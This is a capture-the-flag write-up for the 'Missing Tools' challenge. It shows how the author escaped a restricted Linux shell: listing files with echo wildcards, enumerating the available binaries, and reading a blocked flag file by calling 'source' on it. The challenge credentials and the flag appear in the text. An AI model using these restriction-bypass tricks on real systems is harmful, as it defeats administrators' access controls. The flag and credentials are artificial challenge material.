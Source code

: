 # Missing Tools 250 Points

# Description
My Challenge instance: `193.57.159.27:21477` (Yours may be different)

Man, my friend broke his linux install pretty darn bad. He can only use like, 4 commands. Can you take a look and see if you can recover at least some of his data?

Username: `ractf`<br>
Password: `8POlNixzDSThy`

Note: it may take a minute or more for your container to start depending on load

# Solution
**Username** and **Password** are given.So, I used **ssh** to connect to the target host.

`ssh ractf@193.57.159.27 -p 21477`

As I connect, I am greeted with a message.
```sh
Linux restricted shell
$ 
```
From the message, I knew I had to *bypass* **restricted shell**.

Let's try some commands first.

```sh
$ ls
This command has been disabled by your administrator.
$ pwd
/home/ractf
$ whoami
ractf
$
```

I am in `/home/ractf` directory and I can't list the directory because `ls` is blocked.

But, I can use **echo** ( which prints back whatever we give as argument ) and **asterisk** [wildcard](https://www.tecmint.com/use-wildcards-to-match-filenames-in-linux/) `*` trick to list the *directory*

```sh
$ echo *
flag.txt
$ cat flag.txt
This command has been disabled by your administrator.
```

I can see the `flag.txt` file but I can't execute `cat` command to see what's in it.

We can't also use [reading file with bash](https://linuxhint.com/read_file_line_by_line_bash/) trick because there is no `read` command in our target

```sh
$ while read line; do echo $line; done < *
-sh: read: No such file or directory
```

I decided to check what are in `/usr/bin/` and `/bin/` because they are **directories** that contains most of the executable files

```sh
$ echo /usr/bin/*
/usr/bin/cal /usr/bin/dirname /usr/bin/eject /usr/bin/file /usr/bin/lsof /usr/bin/mkpasswd /usr/bin/sha256sum /usr/bin/split /usr/bin/test /usr/bin/time /usr/bin/wc /usr/bin/whoami /usr/bin/yes
$ echo /bin/*
/bin/[ /bin/bash /bin/cat /bin/date /bin/dir /bin/echo /bin/false /bin/grep /bin/head /bin/help /bin/less /bin/ls /bin/more /bin/pwd /bin/sh /bin/sleep /bin/sync /bin/tail /bin/toysh /bin/true /bin/vi /bin/vim
```

I searched all these programs in [GTFOBins](https://gtfobins.github.io/) to find how to read files with them.

But, that didn't help.

I tried some [built in bash commands](https://manpages.ubuntu.com/manpages/bionic/man7/bash-builtins.7.html) that can give me the informations about the *flag* file

And, in the end I found the flag with `source` command

```sh
$ source *
source: ractf{std0ut_1s_0v3rr4ted_spl1t_sha}: No such file or directory
```

*flag*: `ractf{std0ut_1s_0v3rr4ted_spl1t_sha}`
